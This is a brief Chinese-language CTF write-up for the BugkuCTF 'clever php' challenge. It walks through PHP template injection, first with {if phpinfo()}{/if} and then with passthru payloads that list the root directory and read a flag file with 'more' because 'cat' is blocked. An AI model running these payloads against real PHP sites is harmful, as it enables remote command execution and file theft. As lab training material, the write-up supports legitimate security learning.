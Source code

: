 ### BugkuCTF-聪明的php

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220106123214.png)

输入```?a={2*2}```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220106124301.png)

确定是模板注入

加入if标签：

```
?a={if phpinfo()}{/if}
```



![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220106124423.png)

php提供4种方法执行系统外部命令：`exec()、passthru()、system()、 shell_exec()`

这里只能使用```passthru()```

<br>

```
?a={if passthru("ls /")}{/if}
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220106124627.png)

发现一个比较奇怪的文件，由于这里cat命令被禁用了，所以我们采用more命令来查看该文件的内容

```
?a={if passthru("more /_18175")}{/if}
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220106124900.png)

有关模板注入漏洞的知识：

https://eviladan0s.github.io/2021/03/17/Template-injection/

